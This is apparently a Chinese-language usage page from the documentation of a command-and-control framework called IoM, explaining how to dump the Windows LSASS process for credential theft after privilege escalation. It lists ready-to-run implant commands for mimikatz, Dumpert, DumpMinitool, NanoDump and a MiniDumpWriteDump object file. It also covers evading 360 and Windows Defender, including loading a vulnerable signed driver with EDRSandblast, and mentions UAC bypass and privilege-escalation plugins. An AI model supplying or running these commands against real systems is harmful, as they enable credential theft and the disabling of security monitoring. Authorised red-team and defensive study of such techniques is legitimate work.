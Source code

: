 # IoM 用法: DumpLSASS

通常在提权或绕过UAC后，我们会使用诸如 Mimikatz 或 一些DumpLSASS 工具来获取 lsass.dmp，进而提取凭据。本文将主要举例如何在 IOM 环境中的用法。

## 一些常见的导出方法

按照执行方式举例

### PE
- mimikatz
- procdump 
- dumpert
- avdump
- sqldumper.exe
- 等等

你可以使用execute_exe
```
execute_exe "D:\TOOL\iom_test\mimikatz.exe" -- log "privilege::debug" "sekurlsa::logonPasswords full" exit
```
![mimikatz](/wiki/IoM/assets/usage/lsass/mimikatz.png)

和execute_exe相比, inline_exe的隐蔽性会更好, 但是稳定性方面一些不稳定操作crash或查杀会导致implant直接崩溃
```
inline_exe "D:\TOOL\iom_test\Outflank-Dumpert.exe"
```
![Dumpert](/wiki/IoM/assets/usage/lsass/dumpert.png)

### C\#

- DumpMinitool
- SharpDump
- 等

同样的, 你可以找到对应的execute_assembly和inline_assembly来执行
```bash
execute_assembly "C:\Program Files\dotnet\sdk\8.0.100\Extensions\dump\DumpMinitool.exe" -- --file lsass.dmp --processId <pid> --dumpType Full
inline_assembly "C:\Program Files\dotnet\sdk\8.0.100\Extensions\dump\DumpMinitool.exe" -- --file lsass.dmp --processId <pid> --dumpType Full
```


### Dll

- dumpert-dll
- comsvcs.dll

```
execute_dll "D:\c2测试目录\Dumpert\Dumpert-DLL\x64\Release\Outflank-Dumpert-DLL.dll" -e Dump
inline_dll "D:\c2测试目录\Dumpert\Dumpert-DLL\x64\Release\Outflank-Dumpert-DLL.dll" -e Dump
```

## Bypass 360/Windows Defender
以上大多数方法都已失效，360和Windows Defender都会直接查杀，一些日志相关结果如下:

1. 文件落地执行直接查杀

2. 牺牲进程注入查杀

3. 读取LSASS敏感信息查杀

4. 检测到lsass.dmp文件转存储到了本地磁盘的查杀lsass.dmp文件本身

360核晶, [附截图](/wiki/IoM/assets/usage/lsass/360hvm.png)

Windows Defender , [附截图](/wiki/IoM/assets/usage/lsass/windows_defender.png)

下面介绍几个bypass方法。

### EDRSandblast 
EDRSandBlast是一个用C编写的工具，可将易受攻击的签名驱动程序武器化以绕过 EDR 检测（通知例程回调、对象回调和ETW TI提供程序）和LSASS保护。还实施了多种用户态脱钩技术来逃避用户态监控。

经过测试wd可以过

```
mkdir "C:\temp"
cd "C:\temp"
upload "D:\EDRSandblast\x64\Release\gdrv.sys" "C:\temp\gdrv.sys"
execute_exe "D:\EDRSandblast\x64\Release\EDRSandblast_LsassDump.exe"
```

![EDRSandblast_LsassDump.png](/wiki/IoM/assets/usage/lsass/EDRSandblast_LsassDump.png)

![temp_edrsandblast](/wiki/IoM/assets/usage/lsass/temp_edrsandblast.png)

### NanoDump
nanodump是一个一种灵活的工具，可创建 LSASS 进程的小型转储

经测试，核晶和windows defender都无感。

1. 通过fork间接读取 LSASS ,并使用无效签名将转储写入到目标机器磁盘
```
nanodump -- --fork --write "C:\lsass.dmp"
.\restore_signature.exe lsass.dmp
python -m pypykatz lsa minidump lsass.dmp
```
![nanodump.png](/wiki/IoM/assets/usage/lsass/nanodump2.png)

2. 使用 seclogon Leak Remote 在记事本进程中泄漏 LSASS 句柄，复制该句柄以访问 LSASS，然后通过创建分叉并使用有效签名(--valid)，下载转储来间接读取它
```
nanodump -- --seclogon-leak-remote "C:\Windows\notepad.exe" --fork --valid
```
![seclogon-leak-remote.png](/wiki/IoM/assets/usage/lsass/seclogon-leak-remote.png)

### MiniDumpWriteDump

360核晶和wd都无感，但是本地测试时此方法会生成更大的转储文件约60M (nanodump的文件10M)
```
bof "D:\BOFs\MiniDumpWriteDump\minidumpwritedump.x64.o" -- int:648 str:"C:\lsass.dmp"
```

![MiniDumpWriteDump](/wiki/IoM/assets/usage/lsass/MiniDumpWriteDump.png)

## 其他:

对于UAC和提权方面，iom目前也已经支持了一些常见的插件，如UAC bypass、ElevateKit等，可以直接使用。

用于提权的 ElevateKit 提权截图示例如下:

![ElevateKit](/wiki/IoM/assets/usage/lsass/ElevateKit.png)

UAC Bypass截图:

![UAC Bypass](/wiki/IoM/assets/usage/lsass/uac-bypass.png)

## 参考
- https://github.com/fortra/nanodump
- https://github.com/rookuu/BOFs
- https://github.com/wavestone-cdt/EDRSandblast
- https://github.com/outflanknl/Dumpert
- https://s3cur3th1ssh1t.github.io/Reflective-Dump-Tools
- https://3gstudent.github.io
- https://redsiege.com/blog/2024/03/dumping-lsass-like-its-2019/
- ...